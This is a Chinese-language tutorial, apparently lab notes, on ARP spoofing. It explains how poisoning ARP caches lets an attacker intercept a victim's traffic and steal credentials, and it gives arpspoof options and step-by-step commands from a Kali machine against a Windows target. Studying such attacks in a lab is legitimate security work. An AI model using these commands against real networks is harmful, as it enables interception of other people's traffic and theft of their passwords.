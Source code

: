 图解原理:
![](https://cdn.nlark.com/yuque/0/2023/png/26140423/1674125883446-c475508c-0b7d-4d4f-821b-b2654c6d16ed.png#averageHue=%23f7f6f5&clientId=u2e8ecff1-4bf0-4&from=paste&id=ua4c849a6&originHeight=561&originWidth=1184&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=u417a2fcc-c39f-4ddf-b335-72827c2c37c&title=)
终端中的表现:

```
ARP攻击机器 不停的在告诉 网关ip(路由器ip)  目标主机ip 的mac地址是 攻击机的ip对应的mac
ARP攻击机器 不停的在告诉 靶机ip  路由器的ip 的mac地址是 攻击机的ip对应的mac
```

![](https://cdn.nlark.com/yuque/0/2023/png/26140423/1674125883133-2ae7270e-aaff-4691-b045-d16c682a1489.png#averageHue=%230d0b09&clientId=u2e8ecff1-4bf0-4&from=paste&id=ud49cd2aa&originHeight=90&originWidth=685&originalType=url&ratio=1&rotation=0&showTitle=false&status=done&style=none&taskId=ufc7a4e83-f2a4-4097-a9af-4a5d2385d89&title=)
## 攻击
### 工具arpspoof
arpspoof介绍:
arpspoof 原理: 攻击者通过毒化受害者ARP缓存，将网关MAC替换为攻击者MAC，然后攻击者可截获受害者发送和收到的数据包，从而获取受害者账户、密码等相关敏感信息。Kali 中可以自动下载, 如果下载不了, 可能需要更换下载源.
更换下载源可参考
[https://blog.51cto.com/u_15936127/6000317](https://blog.51cto.com/u_15936127/6000317)
**使用**:

```
arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host
-i：指定网卡
-c:攻击机的IP
-t 目标机器的IP
-r：网关IP
```

说白了同时向**靶机**和**网关**发送假的arp, 从而打扰了正常的数据包的发送.
### 具体流程
注意:作为攻击机的kali的数据包转发是默认关闭的.

1. 查看kali的ip：
```
ip a
```

1. 查看windows的ip：
```
ipconfig /all
```

1. windows ping kali:
```
ping kali的ip
```

1. windows中查看arp表，只查看网关内容
```
arp -a |findstr 网关的ip
```

1. 开始攻击,在kali中输入
```
arpspoof -i eth0 -r  网关ip -t  靶机ip
```
